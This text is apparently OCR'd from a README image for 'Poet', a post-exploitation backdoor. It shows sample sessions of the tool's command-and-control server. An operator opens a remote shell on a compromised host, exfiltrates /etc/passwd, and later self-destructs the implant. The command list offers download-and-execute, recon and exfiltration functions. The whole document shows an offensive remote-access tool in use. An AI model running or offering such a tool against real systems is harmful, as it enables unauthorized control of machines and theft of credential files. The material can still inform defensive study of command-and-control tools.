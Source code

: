 ```
$ sudo ./poet-server

                          _
        ____  ____  ___  / /_
       / __ \/ __ \/ _ \/ __/
      / /_/ / /_/ /  __/ /
     / .___/\____/\___/\__/
    /_/

[+] (06/28/15 03:58:42) Dropping privileges to uid: 501, gid: 20
[+] (06/28/15 03:58:42) Poet server started (port 443)
[+] (06/28/15 03:58:50) Connected By: ('127.0.0.1', 54494) -> VALID
[+] (06/28/15 03:58:50) Entering control shell
Welcome to posh, the Poet Shell!
Running `help' will give you a list of supported commands.
posh > help
Commands:
  chint
  dlexec
  exec
  exfil
  exit
  help
  recon
  selfdestruct
  shell
posh > shell
posh > user@server $ uname -a
Linux lolServer 3.8.0-29-generic #42~precise1-Ubuntu SMP Wed May 07 16:19:23 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
posh > user@server $ ^D
posh > exfil /etc/passwd
posh : exfil written to archive/20150628/exfil/passwd-201506285917.txt
posh > ^D
[+] (06/28/15 03:59:18) Exiting control shell
[-] (06/28/15 03:59:18) Poet server terminated
$ sudo ./poet-server

                          _
        ____  ____  ___  / /_
       / __ \/ __ \/ _ \/ __/
      / /_/ / /_/ /  __/ /
     / .___/\____/\___/\__/
    /_/

[+] (06/28/15 03:59:26) Dropping privileges to uid: 501, gid: 20
[+] (06/28/15 03:59:26) Poet server started (port 443)
[+] (06/28/15 03:59:28) Connected By: ('127.0.0.1', 54542) -> VALID
[+] (06/28/15 03:59:28) Entering control shell
Welcome to posh, the Poet Shell!
Running `help' will give you a list of supported commands.
posh > selfdestruct
[!] WARNING: You are about to permanently remove the client from the target.
    You will immediately lose access to the target. Continue? (y/n) y
[+] (06/28/15 03:59:33) Exiting control shell
[-] (06/28/15 03:59:33) Poet server terminated
```

